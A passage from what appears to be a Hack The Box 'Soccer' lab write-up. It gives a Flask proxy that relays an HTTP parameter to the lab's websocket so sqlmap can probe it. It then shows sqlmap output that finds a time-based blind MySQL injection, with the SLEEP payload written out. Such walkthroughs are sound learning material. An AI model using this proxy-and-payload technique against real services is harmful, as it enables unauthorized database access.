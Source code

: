 #### Run `Flask` based Websocket / HTTP proxy as middleware for `sqlmap`
```python
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

@app.route('/')
def proxy():
    data = {
        "id": request.args.get("id")
    }
    websocket_request = json.dumps(data)
    print(f"[+] Sending: {websocket_request}")
    websocket = create_connection("ws://soc-player.soccer.htb:9091")
    websocket.send(websocket_request)
    response = websocket.recv()
    print(f"[+] Received: {response}")
    websocket.close()
    return response

app.run(host="0.0.0.0", port=8000)
```

```
 * Serving Flask app 'ws_proxy'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.1.94:8000
Press CTRL+C to quit
```

#### Identify time-based blind SQL injection vulnerability in `id` parameter
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ sqlmap http://127.0.0.1:8000?id=1
<SNIP>
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 97 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3875 FROM (SELECT(SLEEP(5)))KbhO)
---
<SNIP>
```

